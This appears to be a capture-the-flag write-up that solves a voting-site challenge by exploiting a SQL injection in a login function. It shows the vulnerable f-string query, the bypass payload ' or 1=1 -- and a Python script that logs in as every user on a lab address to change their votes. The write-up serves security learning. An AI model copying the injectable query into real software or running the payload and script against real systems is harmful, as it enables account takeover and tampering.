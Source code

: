 ## Solve

1. Looking at the autheentication code:
```python
def verify_user(username, password):
    conn = get_db_connection()
    cursor = conn.cursor()

    # Note: Fix better verification
    query = f"SELECT * FROM users WHERE username = '{username}' AND password_hash = '{password}'"
    cursor.execute(query)
    result = cursor.fetchone()
    conn.close()
    if result:
        return True
    return False
```
We can clearly see that both the username field and password field should be injectable.

2. We can use `' or 1=1 --` as the password to login as the admin.
3. See flag 1.
4. Lets automate this for every user so we can change their votes.



```python
import requests

password = "' or 1=1 --"


with requests.Session() as s:
    s.post("http://10.212.172.46:30001/login", data={"username": "admin", "password": password})
    usernames = s.get("http://10.212.172.46:30001/users").json()
    print(usernames)


for user in usernames:
    with requests.Session() as s:
        s.post("http://10.212.172.46:30001/login", data={"username": user, "password": password})
        s.post("http://10.212.172.46:30001/vote", data={"candidate": "borat"})

```
Then visit the website as the admin and you are prompted with the flag.